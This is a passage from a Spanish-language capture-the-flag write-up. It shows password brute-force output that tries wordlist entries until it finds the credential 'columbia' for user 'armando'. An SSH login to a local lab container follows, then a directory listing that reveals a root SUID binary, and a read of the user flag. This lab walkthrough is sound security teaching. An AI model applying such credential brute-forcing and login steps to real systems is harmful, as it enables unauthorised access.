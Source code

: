 ```java
Probando contraseña [Línea 8575]: kobe08
Probando contraseña [Línea 8576]: kalani
Probando contraseña [Línea 8577]: john12
Probando contraseña [Línea 8578]: jesus3
Probando contraseña [Línea 8579]: jeanie
Probando contraseña [Línea 8580]: jade123
Probando contraseña [Línea 8581]: iluvu1
Probando contraseña [Línea 8582]: iluvboys
Probando contraseña [Línea 8583]: iloveme123
Probando contraseña [Línea 8584]: filomena
Probando contraseña [Línea 8585]: feliz
Probando contraseña [Línea 8586]: darklord
Probando contraseña [Línea 8587]: cute123
Probando contraseña [Línea 8588]: columbia

Contraseña encontrada para el usuario armando en la línea 8588: columbia
```

*Contraseña* encontrada para el *usuario* **armando** en la **línea 8588**: **columbia**


Establecemos una conexión **ssh** con el usuario `armando` y la contraseña `columbia` :
```java
┌─[j0rd1s3rr4n0@parrot]─[~]
└──╼ $ssh armando@172.17.0.2 -p 22
armando@172.17.0.2's password: 

Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.10.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Sun Jan 26 05:02:53 2025 from 172.17.0.1

armando@861ac52240d6:~$ whoami;ls -la;pwd
armando
total 36
drwxr-x--- 1 armando armando   150 Jan 26 10:42 .
drwxr-xr-x 1 root    root       44 Dec 30 02:47 ..
-rw------- 1 armando armando    18 Jan 26 10:42 .bash_history
-rw-r--r-- 1 armando armando   220 Dec 30 02:47 .bash_logout
-rw-r--r-- 1 armando armando  3771 Dec 30 02:47 .bashrc
drwx------ 1 armando armando    40 Jan 26 05:02 .cache
drwx------ 1 armando armando    12 Jan 26 05:04 .config
-rw-r--r-- 1 armando armando   807 Dec 30 02:47 .profile
---s--x--x 1 root    root    16088 Dec 30 02:47 do_not_execute
-rw-r--r-- 1 root    root       39 Dec 30 02:47 user.txt
/home/armando

armando@861ac52240d6:~$ cat user.txt
flag{293aea10df6464942b3cce268c9c75af}
```
Al acceder al sistema podemos obervar que estamos en el home del usuario armando y que este home tiene 2 archivos que normalmente no se encuentran ahí, el user.txt que contiene la flag y un archivo con permiso SUID del usuario root.
